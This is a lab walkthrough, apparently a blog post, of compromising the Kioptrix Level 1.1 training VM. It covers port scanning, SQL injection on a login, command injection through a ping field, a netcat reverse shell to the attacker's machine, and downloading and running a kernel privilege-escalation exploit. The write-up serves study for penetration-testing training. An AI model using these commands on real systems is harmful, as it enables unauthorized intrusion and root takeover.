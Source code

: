 ```yaml
---
title: 'Vulnhub: Kioptrix Level 1.1(#2) - Walkthrough'
date: '2019-06-06T21:18:20+05:30'
draft: true
categories:
  - walkthrough
autoThumbnailImage: false
---
```



Kioptrix 2, the successor of one of the most popular vulnerable machines available online used for OSCP training, can be found here[ https://www.vulnhub.com/entry/kioptrix-level-11-2,23/](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

[](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Upon opening in the VMware, the machine looks like this 

 

Then I’ll discover the IP address of the target machine using the command

`arp-scan –l`

 

Then I did port scanning of the target machine to check for open ports and services running on them

`nmap –A –Pn 192.168.192.133`

 

The complete result was as follows with the ports and services running highlighted:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-06-06 04:39 EDTNmap scan report for 192.168.192.133Host is up (0.0010s latency).Not shown: 994 closed portsPORT     STATE SERVICE  VERSION22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)| ssh-hostkey: |   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)|_sshv1: Server supports SSHv180/tcp   open  http     Apache httpd 2.0.52 ((CentOS))|_http-server-header: Apache/2.0.52 (CentOS)|_http-title: Site doesn't have a title (text/html; charset=UTF-8).111/tcp  open  rpcbind  2 (RPC #100000)| rpcinfo: |   program version   port/proto  service|   100000  2            111/tcp  rpcbind|   100000  2            111/udp  rpcbind|   100024  1            839/udp  status|_  100024  1            842/tcp  status443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))|_http-server-header: Apache/2.0.52 (CentOS)|_http-title: Site doesn't have a title (text/html; charset=UTF-8).| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--| Not valid before: 2009-10-08T00:10:47|_Not valid after:  2010-10-08T00:10:47|_ssl-date: 2019-06-06T05:30:31+00:00; -3h09m48s from scanner time.| sslv2: |   SSLv2 supported|   ciphers: |     SSL2_DES_64_CBC_WITH_MD5|     SSL2_RC4_128_EXPORT40_WITH_MD5|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5|     SSL2_RC2_128_CBC_WITH_MD5|     SSL2_DES_192_EDE3_CBC_WITH_MD5|     SSL2_RC4_128_WITH_MD5|_    SSL2_RC4_64_WITH_MD5631/tcp  open  ipp      CUPS 1.1| http-methods: |_  Potentially risky methods: PUT|_http-server-header: CUPS/1.1|_http-title: 403 Forbidden3306/tcp open  mysql    MySQL (unauthorized)MAC Address: 00:0C:29:12:E2:C6 (VMware)Device type: general purpose|media deviceRunning: Linux 2.6.X, Star Track embeddedOS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hdOS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)Network Distance: 1 hopHost script results:|_clock-skew: mean: -3h09m48s, deviation: 0s, median: -3h09m48sTRACEROUTEHOP RTT     ADDRESS1   1.03 ms 192.168.192.133OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 33.17 seconds
```



Now after this I tried using SSH for login, but couldn’t succeed. _**IPP on port 631 with CUPS 1.1**_ was my next target to try on, so I spent a good amount of time trying its exploits, but nothing really seemed to work. Then I also tried _**remote login on MySQL**_ but it didn’t work either. Now I came to the _**port 80, for HTTP**_. The following is the webapp hosted on the target machine.



 

This opened up a login, so first things first, I tried SQL Injection 

 



And it actually worked, this opened the following page







Now I tried pinging my own IP address, which worked and is opened in another window like below



 

Now the first thing which striked in my mind was trying command execution using the same prompt box we entered the IP address in, I start with a simple _**pwd**_ command

`<IP address to ping>;<linux command to execute along>`



 



Now I start a netcat listener on my machine, using the command

`nc –nlvp <any available port>`

 



Now to get terminal access of the target machine on mine, I use the following command taking advantage of the command execution vulnerability I previously found.



`<any IP to ping>;/usr/local/bin/nc <Kali’s IP> <Port number on which listener is on> -e '/bin/bash'`

``

After executing this command, we’ll see a connection is established on our listener



 



Now we got the terminal access, but to get a command line interface, I used the command



`python –c “import pty;pty.spawn(‘/bin/bash/)”`



 



Now that I have a directory access, I tried playing in the directories for a while and used normal commands to learn more about the machines and files stored on it, some of these commands are below.



 

Now that I had user access and I surfed around the directories a little, I found writable file permissions for the folder _**/tmp **_which could be used for using a privilege escalation exploit compiling it and running it, which is exactly what I did.



Now I used two commands to make me aware of the Linux Kernel version and the OS release.



cat /etc/*-release		(OS Release)

uname –r 			(Linux Kernel Version)



 



Using this exploit, I used the searchsploit tool in Kali to find a Privilege Escalation exploit.

  



Now that I found exactly one exploit, I could try using it on the machine. To download it onto the target machine, I will make use of the remote netcat terminal I created but first I’ll need to create a server from Kali hosting that exploit file I just found. For this I used the following commands



searchsploit –m <exploit file name with extension>		(copies the file to the working dir)

 



python –m SimpleHTTPServer			(starts a server in the same directory)

  



Now that this is done, I headed to the /tmp folder where writing and creating files is allowed for a normal user too, and download the exploit from the server I just created using the commands



cd /tmp

wget <Kali’s IP address>:<port number of server>/<filename to be downloaded>

 

After the exploit is downloaded, I now need to compile it and execute it.



gcc –o <executable output exploit name> <exploit file name>			(to compile)

./<executable file name>



 



And upon the sight of “#” I knew that I’ve successfully escalated the privilege to root access.

To confirm it, I further used the commands “whoami” and “id”
